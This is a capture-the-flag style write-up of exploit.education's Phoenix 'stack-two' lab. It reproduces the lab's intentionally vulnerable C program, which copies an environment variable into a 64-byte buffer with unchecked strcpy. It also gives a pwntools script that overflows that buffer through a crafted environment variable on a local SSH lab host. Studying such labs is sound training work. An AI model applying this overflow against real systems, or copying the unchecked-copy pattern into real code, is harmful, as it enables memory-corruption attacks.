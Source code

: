 ## Stack-Two

![](https://blog.cyb3rguru.tech/posts/phoenix/files/st2_header.png)

The source code provided:

### Source Code
---

```
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```
### Let's Dig in the code:
---
- The main() function is the entry point of the program.

- Inside the main() function, there is a definition of a structure named locals. It contains two members: buffer, an array of characters with a size of 64, and changeme, a volatile integer.

- A ptr variable of type char* is declared.

- The program prints the welcome message using printf().

- The program retrieves the value of the environment variable "ExploitEducation" using getenv() and assigns it to the ptr variable. If the variable is not set, an error message is displayed using errx().

- The changeme variable is initialized to 0.

- The strcpy() function is used to copy the value of ptr into locals.buffer. This is potentially unsafe since strcpy() does not perform bounds checking.

- After the strcpy() call, the program checks if changeme is equal to 0x0d0a090a. If true, it outputs a success message.

- If changeme is not equal to 0x0d0a090a, it displays a message showing the current value of changeme and the expected value.

- Finally, the program exits with a status code of 0.

### Solution
---
This challenge is very simlar to stack level one, but in this challenge we need to overflow the buffer, change the `changeme` struct variable to `0x0d0a090a` all from the environmental variable, using pwntools we could
accomplish this

```
#!/usr/bin/python
## script by Hamza Saidu
## cyberguru


from pwn import *

# connecting to the remote phoenix server
s = ssh(host='localhost', user='user', password='user', port=2222)

# sending exploit

message ="*"*20 + "setting environmental variable" + "*"*20
env_var = "ExploitEducation=$(python3 -c \"print('A'*64)\")$(echo '\x0a\x09\x0a\x0d')"
run_prog = "/opt/phoenix/amd64/stack-two"

print(s.run(f"printenv;echo {message};export {env_var};printenv;{run_prog}").recvall().decode())

```

Explanaiton of the code
---

```
from pwn import *
```
- The pwn library is imported, which provides functions for binary exploitation and interaction with remote services.

```
# connecting to the remote phoenix server
s = ssh(host='localhost', user='user', password='user', port=2222)
```
- An SSH connection is established to a server running on localhost with the username "user," password "user," and port 2222.

```
message ="*"*20 + "setting environmental variable" + "*"*20
```
- A string message is created, indicating the intention to set an environmental variable.

```
env_var = "ExploitEducation=$(python3 -c \"print('A'*64)\")$(echo '\x0a\x09\x0a\x0d')"
```
- An environmental variable named "ExploitEducation" is defined. The value of this variable is constructed using a command injection technique. It assigns the output of a Python command (print('A'*64)) to the variable, which generates a string of 64 'A' characters.

```
run_prog = "/opt/phoenix/amd64/stack-two"
```
- A variable named run_prog is set to the path of the program that will be executed on the remote server (/opt/phoenix/amd64/stack-two).

```
print(s.run(f"printenv;echo {message};export {env_var};printenv;{run_prog}").recvall().decode())

```
- The script is then executed on the remote server. It prints the current environment variables (printenv), displays the message, exports the env_var, prints the updated environment variables, and finally executes the program run_prog with the output of the command execution is received and printed.

So running the program we have:

![](https://blog.cyb3rguru.tech/posts/phoenix/files/st2_result.png)

